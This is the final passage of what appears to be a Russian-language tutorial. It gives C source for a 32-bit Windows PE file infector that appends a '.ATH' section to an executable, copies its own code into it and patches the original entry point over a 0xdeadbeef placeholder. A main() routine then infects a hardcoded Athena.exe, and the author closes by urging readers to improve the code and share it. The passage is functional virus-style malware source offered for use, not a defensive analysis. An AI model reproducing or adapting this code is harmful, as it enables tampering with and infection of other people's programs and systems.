     byte mac[1000];
    byte *fb = ((byte *)(start));
    DWORD *invalidEP;
    DWORD i = 0;
 
    while (i < ((end - 11) - start)){
        invalidEP = ((DWORD*)((byte*)start + i));
        if (*invalidEP == 0xdeadbeef){
            /*
                Так как значение OEP (оригинальная точка входа) хранится в переменной внутри кода инфектора и если мы хотим ссылаться на него из опкодов, то часть программы для самочтения заполнит недействительный адрес, так как мы укажем на то, что существует только здесь, а не на раздел данных зараженной программы. Решение: мы поместим заглушку со значением 0xdeadbeef, чтобы позже перезаписать туда OEP.
            */
            DWORD old;
            VirtualProtect((LPVOID)invalidEP, 4, PAGE_EXECUTE_READWRITE, &old);
            *invalidEP = OEP;
        }
        mac[i] = fb[i];
        i++;
    }
    SetFilePointer(file, last->PointerToRawData, NULL, FILE_BEGIN);
    WriteFile(file, mac, i, &dw, 0);
    CloseHandle(file);
    return true;
}
 
void main(){
    char *file = "C:\\Users\\M\\Desktop\\Athena.exe";
    int res = AddSection(file, ".ATH", 400);
    switch (res){
    case 0:
        printf("Error adding section: File not found or in use!\n");
        break;
    case 1:
        printf("Section added!\n");
        if (AddCode(file))
            printf("Code written!\n");
        else
            printf("Error writting code!\n");
        break;
    case -1:
        printf("Error adding section: Invalid path or PE format!\n");
        break;
    case -2:
        printf("Error adding section: Section already exists!\n");
        break;
    case -3:
        printf("Error: x64 PE detected! This version works only with x86 PE's!\n");
        break;
    }
}

Пробуйте, улучшайте, делайте свое и самое главное: ДЕЛИТЕСЬ ЭТИМ С ДРУГИМИ!

Счастливого кодинга!

